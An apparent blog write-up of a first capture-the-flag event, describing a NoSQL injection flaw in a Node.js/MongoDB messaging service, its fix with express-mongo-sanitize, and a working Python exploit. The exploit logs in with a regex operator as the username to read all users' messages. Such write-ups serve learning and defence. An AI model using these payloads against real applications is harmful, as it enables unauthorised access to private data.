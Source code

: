 ```yaml
---
layout: post
title: "Report of the BambiCTF of ENOFLAG"
date: 2021-04-07 20:42:39 +0000
categories: [blog]
tags: [ctf]
---
```


This was my first CTF and I will try to explain a vulnerability I fixed and exploited. 

## Setup 

During the CTF I connected to the server with VSCode, which meant I had instant access to all files and could edit them without changing between multiple ssh windows with `nano` editors.

Also the extensions: 
 - [Docker](https://marketplace.visualstudio.com/items?itemName=ms-azuretools.vscode-docker):
   For always having an eye on your services, easy access to logs and one-click terminals to your containers. 
 - [REST Client](https://marketplace.visualstudio.com/items?itemName=humao.rest-client):
   For writing simple HTTP Requests in a file format. (see below)
 - [Python](https://marketplace.visualstudio.com/items?itemName=ms-python.python)
   For writing the exploit in a simple jupyter notebook. 

Allowed for a hassle free search for vulnerabilities

## Stonksexchange Vulnerability

[Here you can find the vulnerable service to try for yourself.](https://github.com/ldruschk/bambi-service-stonksexchange). 

The service is a simple node application which allows exchange of messages for registered/loggedin users: 

![image](https://user-images.githubusercontent.com/13590797/115123614-2d724c00-9fbe-11eb-8a9b-abe2db800a7d.png)

First I tried a simple XSS attack but was unsuccessful. Then it came to my mind that it might be some kind of injection attack as the service had a database.
After having a look at the files I noticed that user input was passed to the database without sanitizing it: 
```javascript
// /routes/index.js
router.post('/register', function (req, res, next) {
  if (!req.body.username || !req.body.password) {
    res.status(400).send('Missing username or password');
    return;
  }
  var db = req.app.locals.db;
  /*
   * Notice the findOne() function below which gets the data directly from the request body
   */
  db.collection('users').findOne({ 'username': req.body.username }).then(results => {
    if (results) {
      res.status(400).send('Username already in use');
      return;
    }
    argon2.hash(req.body.password).then(hash => {
      db.collection('users').insertOne({ 'username': req.body.username, 'password': hash }).then(results => {
        req.session.user = req.body.username;
        res.redirect('/');
      });
    });
  });
});
```

Trying the Endpoint directly confirms the suspicion. [MongoDB Operators](https://docs.mongodb.com/manual/reference/operator/query/) are directly executable.
```HTTP
# This Request always returns "Username already in use" because the query "{"$ne": null}" returns the first user 
# which names is not null (which is always the first user). 
POST http://localhost:8199/register HTTP/1.1
content-type: application/json

{
  "username": {"$ne": null},
  "password": "$#@Call4Code"
}
```

This holds true for multiple functions and googling the words [`mongodb` `findOne`, `vulnerability`](https://www.google.com/search?q=mongodb+findone+vulnerability) leads to possible NoSQL injections. 
So how to fix it? - [Stackoverflow is your friend](https://stackoverflow.com/questions/30585213/do-i-need-to-sanitize-user-input-before-inserting-in-mongodb-mongodbnode-js-co). 
I didn't use the package recommended there, but instead used [express-mongo-sanitize](https://www.npmjs.com/package/express-mongo-sanitize). Installing it and adding the following two lines fixed the problem. 

```javascript
// app.js

var createError = require('http-errors');
var express = require('express');
var path = require('path');
var cookieParser = require('cookie-parser');
var logger = require('morgan');
var session = require('express-session');
/**
  * Adding the following line to load the sanitizer
  */
const mongoSanitize = require('express-mongo-sanitize');
const MongoClient = require('mongodb').MongoClient;

// ...

app.use(logger('dev'));
app.use(express.json());
app.use(express.urlencoded({ extended: false }));
/**
  * Use the sanitizer.
  */
app.use(mongoSanitize());

app.use(cookieParser());
```

Trying the endpoints again leads to a new user `{"$ne": null}`. :)


## Stonksexchange Exploit

Now that we know that the endpoints `/register`, `/login` and `/messages` are vulnerable we have to look for the flags.
> Notice that you won't have any flags locally because there is no server putting them there! 

Looking into the database we can see messages with flags. But how to retrieve them?

![image](https://user-images.githubusercontent.com/13590797/115124821-952b9580-9fc4-11eb-8d4c-b5b1a75ed2ca.png)

Having a look at the `/messages` function we can see that `req.session.user` is used without sanitizing it, which means if we can put an Operator like `{$regex: "."}` there (which matches any character), we can retrieve the first 50 messages of the database. 
```javascript
router.get('/messages', function (req, res, next) {
  if (!req.session.user) {
    res.status(403).send('Not logged in');
    return;
  }
  var db = req.app.locals.db;
  /**
    * Notice that req.session.user is passed without sanitizing it
    */
  db.collection('messages').find({ 'username': req.session.user }, { 'sort': { '$natural': -1 } }).limit(50).toArray((err, results) => {
    if (err) {
      res.status(500).send('Internal server error');
      return;
    }
    res.locals.messages = results;
    res.render('messages', { title: 'Messages' });
  });
});
```

Because `user` is read from the `session` we have to "login" with the query we want to execute first. 

```javascript
router.post('/login', function (req, res) {
  if (!req.body.username || !req.body.password) {
    res.status(400).send('Missing username or password');
    return;
  }
  var db = req.app.locals.db;
  /**
    * The first user matching the username is returned, if the username is a query like {$regex: "."} we have to consider the sort function.
    */
  db.collection('users').findOne({ 'username': req.body.username }, { 'sort': { '$natural': -1 } }).then(results => {
    if (!results) {
      res.status(400).send('Invalid username or password');
      return;
    }
    argon2.verify(results.password, req.body.password).then(result => {
      if (!result) {
        res.status(400).send('Invalid username or password');
        return;
      }
      req.session.user = req.body.username;
      res.redirect('/');
    });
  });
});
```

Viewing the `/login` enpoint we can see that the first user matching the query will be returned. As we want the username to be `{$regex: "."}` we have to consider the ([natural](https://docs.mongodb.com/v4.2/reference/glossary/#term-natural-order)) sort order. 

![image](https://user-images.githubusercontent.com/13590797/115125463-7d561080-9fc8-11eb-84fe-eb8049f2791f.png)

In this case it will always be last created user. For a successful login we have to know the password. What better way to just creat one?

Lets put it together in a python script:

```python
import requests
base = "http://localhost:8199"

# Prepare the exploit by creating a user with a password we know
prepare = requests.Session()
register = prepare.post(base + '/register', json={ 'username': "0a", "password": "masterpass" })

# Create the exploit Session
exploit = requests.Session()
# Login with the query we want to execute
register = exploit.post(base + '/login', json={ 'username': {"$regex": "."}, "password": "masterpass" })
print(register.status_code)

# Get all messages
messages = exploit.get(base + "/messages")
print(messages)
```

> During the CTF new users where created from other people exploiting the service, which meant that in order to login with all matching regex a new user had to be created each time. 

